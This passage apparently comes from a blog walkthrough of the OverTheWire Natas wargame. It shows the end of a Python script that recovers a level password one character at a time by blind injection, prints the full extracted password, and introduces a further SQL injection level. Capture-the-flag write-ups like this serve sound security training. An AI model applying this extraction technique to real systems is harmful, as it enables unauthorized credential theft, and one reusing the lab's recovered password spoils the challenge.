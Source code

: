 ``` python
                index += 1
                break
            else:
                # keep the chars that matched
                passwd = passwd[:-1]
print "Done! Password: ", passwd
```

And the output:
         
``` plain
Password:  8
Password:  8P
Password:  8Ps
Password:  8Ps3
Password:  8Ps3H
Password:  8Ps3H0
Password:  8Ps3H0G
Password:  8Ps3H0GW
Password:  8Ps3H0GWb
Password:  8Ps3H0GWbn
Password:  8Ps3H0GWbn5
Password:  8Ps3H0GWbn5r
Password:  8Ps3H0GWbn5rd
Password:  8Ps3H0GWbn5rd9
Password:  8Ps3H0GWbn5rd9S
Password:  8Ps3H0GWbn5rd9S7
Password:  8Ps3H0GWbn5rd9S7G
Password:  8Ps3H0GWbn5rd9S7Gm
Password:  8Ps3H0GWbn5rd9S7GmA
Password:  8Ps3H0GWbn5rd9S7GmAd
Password:  8Ps3H0GWbn5rd9S7GmAdg
Password:  8Ps3H0GWbn5rd9S7GmAdgQ
Password:  8Ps3H0GWbn5rd9S7GmAdgQN
Password:  8Ps3H0GWbn5rd9S7GmAdgQNd
Password:  8Ps3H0GWbn5rd9S7GmAdgQNdk
Password:  8Ps3H0GWbn5rd9S7GmAdgQNdkh
Password:  8Ps3H0GWbn5rd9S7GmAdgQNdkhP
Password:  8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
Password:  8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
Password:  8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
Password:  8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
Password:  8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
Done! Password:  8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```

Cool, we have the password for the next level: <code>8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw</code>

### Level 17

{% img center /images/overthewire/natas/natas15.png 'natas17' 'natas 17' %}

Again, a level similar to a previous one. This will be another case of SQL injection:
